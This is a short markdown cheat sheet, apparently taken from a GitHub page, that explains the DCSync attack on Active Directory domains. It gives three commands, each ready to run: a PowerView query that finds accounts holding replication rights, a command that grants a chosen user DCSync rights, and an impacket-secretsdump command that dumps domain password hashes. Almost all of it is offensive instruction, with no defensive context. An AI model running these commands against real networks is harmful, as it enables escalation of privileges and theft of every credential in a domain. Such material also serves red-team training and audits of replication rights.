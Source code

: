 # dcsync

Allows an attacker to **simulate the behavior of Domain Controller (DC) in order to retrieve password data via domain
replication**. Any member of **Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer
accounts** are able to run DCSync to pull password data.

## Check for users with DCSync

```bash
Get-ObjectAcl -DistinguishedName "dc=DOMAIN,dc=COM" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

## Usage

### using powerview

```bash
Add-ObjectACL -TargetDistinguishedName "dc=DOMAIN,dc=COM" -PrincipalIdentity USER -Rights DCSync
```

## post DCSync

```bash
impacket-secretsdump DOMAIN/USER:['PASS']@IP [-just-dc] [just-dc-user USER]
```